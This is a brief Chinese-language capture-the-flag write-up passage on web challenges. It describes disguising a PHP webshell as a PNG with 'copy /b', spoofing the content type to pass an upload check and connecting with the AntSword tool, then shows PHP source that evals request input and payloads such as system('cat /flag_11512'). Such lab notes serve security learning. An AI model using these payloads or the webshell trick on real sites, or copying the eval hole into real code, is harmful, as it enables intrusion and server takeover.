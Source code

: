 ![](./img/upload5.png)


### 文件头检测


**制作图片马**

copy 1.png/b+shell.php tupianma.php

抓包修改contype为image/png

蚁剑连接

### RCE
### eval执行

**题目源码**
```php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
```

**解题思路**

- 解法一：
```bash
# 分号不能省略
?cmd=system('ls /');
?cmd=system('cat /flag_11512');
```

